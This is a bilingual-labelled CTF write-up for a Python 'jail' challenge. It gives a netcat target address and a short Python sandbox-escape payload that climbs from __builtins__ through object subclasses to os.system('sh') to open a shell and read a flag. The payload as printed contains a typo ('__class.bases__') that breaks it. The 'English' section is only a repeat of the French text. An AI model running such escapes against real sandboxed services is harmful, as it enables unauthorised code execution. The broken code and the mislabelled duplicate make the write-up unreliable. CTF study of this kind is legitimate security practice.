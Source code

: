 #### Categorie: PWN
#### **Author**: 5c0r7
#### Solve: 15/20 
#### Points: 500 pts (at first)| 360 pts (at end)

#### Write-up by:[0xJekyll](https://twitter.com/Ted_Kouhouenou) 

### Description : 
#### **[FR]**
Un autre jail, échappe les filtres.
#### **[EN]**
Another jail, bypass the filters.

`nc 54.37.70.250 1004`


## Solution :
### Fr Version : 

`For ENG version scroll down` 

![prison](Images/gankpame2.png)

Ce chall fait reference au Chall du Qualification Stage des qualification du HackerLab 2023
[gankpame](https://github.com/Tednoob17/HackerLab2023/blob/main/Qualifications%20Stages/HackerLab2023%20-%20Gankpa%20M%C9%9B.pdf)  <- (Le writeup)


Comme lors de la premiere parie de ce chall nous avions utiliser un payload python 
et aussi come lors de la premiere partie nous avions des restrictions sur le payload a utiliser lui meme comme la longueur de la chaine a utiliser ainsi que des fonctions interdites,ici nous avons des filtres et la restrictions de la taille du payload est toujours aussi presente.

```python3
__builtins__['a']=__builtins__
a['b']=().__class.bases__
a['c']=b[0].__subclasses__()
a['d']=c[59].__init__
a['e']=d.__getattribute__
a['f']=e("func_globals")
a['g']=f['LINECACHE'.lower()]
a['h']=g.__dict__
a['i']=h['OS'.lower()]
a['j']=i.__dict__ 
j['SYSTEM'.lower()]('sh')
```
ce payload nous permet de reduite la taille en faisant des affectations continue de la chaine du payload precedent en demarrant par les *builtins* la premiere classe de base et en descendant vers les sous classes afin d'obtenir une fonction pouvant nous aider a avoir un shell pour pouvoir aficher le flag qui ici est un fichier cacher . 


------------------------------------------------------------------------
### Eng Version 


![prison](Images/gankpame2.png)

Ce chall fait reference au Chall du Qualification Stage des qualification du HackerLab 2023
[gankpame](https://github.com/Tednoob17/HackerLab2023/blob/main/Qualifications%20Stages/HackerLab2023%20-%20Gankpa%20M%C9%9B.pdf)  <- (Le writeup)


Comme lors de la premiere parie de ce chall nous avions utiliser un payload python 
et aussi come lors de la premiere partie nous avions des restrictions sur le payload a utiliser lui meme comme la longueur de la chaine a utiliser ainsi que des fonctions interdites,ici nous avons des filtres et la restrictions de la taille du payload est toujours aussi presente.

```python3
__builtins__['a']=__builtins__
a['b']=().__class.bases__
a['c']=b[0].__subclasses__()
a['d']=c[59].__init__
a['e']=d.__getattribute__
a['f']=e("func_globals")
a['g']=f['LINECACHE'.lower()]
a['h']=g.__dict__
a['i']=h['OS'.lower()]
a['j']=i.__dict__ 
j['SYSTEM'.lower()]('sh')
```
ce payload nous permet de reduite la taille en faisant des affectations continue de la chaine du payload precedent en demarrant par les *builtins* la premiere classe de base et en descendant vers les sous classes afin d'obtenir une fonction pouvant nous aider a avoir un shell pour pouvoir aficher le flag qui ici est un fichier cacher . 

